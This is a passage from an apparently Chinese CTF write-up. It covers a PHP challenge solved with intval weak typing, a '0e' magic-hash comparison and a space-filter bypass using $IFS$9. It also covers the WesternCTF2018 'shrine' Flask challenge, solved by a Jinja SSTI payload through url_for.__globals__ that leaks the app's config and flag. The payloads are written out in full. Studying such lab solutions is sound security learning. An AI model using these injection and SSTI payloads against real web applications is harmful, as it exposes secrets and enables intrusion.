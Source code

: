 其中

```php
$num='1e10';
echo intval($num);                    // 1
echo '</br>';
echo intval($num+1);                  // 1410065409
```

那么level1就很好绕过了。level2：弱类型绕过：`0e215962017`

level3过滤了cat，可以使用tac，也过滤了空格，使用`$IFS$9`绕过

最终payload:`num=1e10&md5=0e215962017&get_flag=$IFS1ffffllllaaaggg`

# 0x31.[WesternCTF2018]shrine(SSTI)

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')
@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

`{{7*7}}`发现有SSTI

注册了一个名字为`FLAG`的config，同时这个题目把`(),config,self`都过滤掉了，并且黑名单设置的时候，替换为空。

那么可以使用python的内置函数`url_for`和`get_flashed_messages`

`url_for.__globals__`发现：`'current_app': <Flask 'app'>`

`current_app`就是当前下的app，接下来查看当前app下的config

```python
/shrine/{{url_for.__globals__['current_app'].config}}
or 
/shrine/{{url_for.__globals__['current_app'].config.FLAG}}
```
